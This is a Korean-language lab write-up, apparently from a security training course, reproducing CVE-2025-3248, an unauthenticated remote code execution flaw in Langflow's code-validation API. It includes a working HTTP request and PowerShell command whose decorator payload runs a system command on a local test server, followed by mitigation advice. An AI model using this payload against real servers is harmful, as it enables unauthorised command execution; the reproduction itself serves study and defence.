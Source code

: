 # Langflow validate/code API pre-Auth Remote Code Execution (CVE-2025-3248)


> 화이트햇 스쿨 3기 - 권석재 @seokjea

## **요약**

Langflow 1.3.0 이전 버전의 /api/v1/validate/code API에서는 사용자 입력을 파싱한 뒤 exec 함수로 실행하는 구조를 가지고 있어, Python의 데코레이터 
또는 기본 인자 표현식에 악성 코드를 삽입함으로써 인증 없이 원격 코드 실행(RCE)이 가능하다.
공격자는 서버 권한으로 임의 시스템 명령어를 실행할 수 있으며, 서버 내부 정보 탈취 및 추가 공격으로 이어질 위험이 있다.

## 환경 구성 및 실행

- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- (your-ip:7860) http://localhost:7860/ 접속
- 쿼리 실행하여 id 명령어 실행됐는지 확인

## 취약점 재현 방법

### BurpSuite를 통한 요청 시도

- BurpSuite Repeater를 사용하여 POST 요청을 시도하였으나,
- "Failed to connect to localhost" 에러 발생
- 원인: BurpSuite와 Docker 네트워크 분리 문제
- 조치: PowerShell의 `Invoke-WebRequest`로 직접 요청 전환

- #### BurpSuite 전송 Payload (초기 시도)

POST /api/v1/validate/code HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{"code": "@exec(\"raise Exception(**import**('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}

![alt text](images/image.png)

### PowerShell을 통한 직접 요청 (Invoke-WebRequest 사용) 재현 성공

Invoke-WebRequest -Uri "http://localhost:7860/api/v1/validate/code"   `-Method POST`
-ContentType "application/json" `
-Body '{"code": "@exec(''raise Exception(**import**(\"subprocess\").check_output([\"id\"]))'')\ndef foo():\n    pass"}'

## 결과

![alt text](images/image2.png)

서버에서 id 명령어가 실행되어

uid =0(root) 결과를 반환받아  코드가 실행된 것을 확인하였다.

## 정리

Langflow `/api/v1/validate/code` API의 취약점은 코드 검증 과정에서 사용자 입력을 안전하게 처리하지 않고 `exec` 함수로 실행함으로써, 
인증 없이 임의 시스템 명령어를 실행할 수 있는 위험성을 보여준다. 이로 인해 서버 권한 탈취, 내부 정보 노출, 추가 공격이 가능해진다. 
이러한 문제를 예방하기 위해서는 사용자 입력에 대한 엄격한 검증, 위험 함수(exec 등) 사용 금지, AST 기반 화이트리스트 필터링 적용, 
그리고 소프트웨어를 최신 버전으로 업데이트하는 등의 보안 조치가 반드시 필요하다.
